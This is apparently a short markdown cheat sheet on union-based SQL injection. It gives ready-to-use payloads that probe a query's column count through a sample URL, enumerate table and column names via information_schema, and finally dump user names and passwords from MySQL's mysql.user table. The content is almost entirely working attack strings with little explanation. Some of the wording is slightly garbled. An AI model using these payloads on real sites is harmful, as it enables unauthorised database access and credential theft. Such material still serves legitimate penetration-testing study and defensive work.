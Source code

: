 ## Union Based SQLi

From fixing method: -1 UNION SELECT 1,2,3,4,5,6,7; -- -


or

Form value exceeding method: 

http://example.com/sqli.php?cod=100(returns nothing or query doesnt exists then) UNION SELECT 1,2,3,4,5,6,7;-- -

or

http://example.com/sqli.php?cod=1' UNION SELECT 1; -- -

or

http://example.com/sqli.php?cod=1' UNION SELECT 1; --+

or

http://example.com/sqli.php?cod=1' UNION ALL SELECT 1; --+

### Fetching the table names:

UNION SELECT 1,2,3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema=database();-- -

### Fetching columns from tables.
UNION SELECT 1,2,3,4,group_concat(column_name),6,7 from information_schema.columns where table_name = 'room';-- -


#### For fetching user  and password from database 

Database: mysql
Table: user

UNION SELECT 1,2,3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema='mysql';-- -

Finally,

UNION SELECT 1, user,3, 4,password, 6, 7 from mysql.user;-- -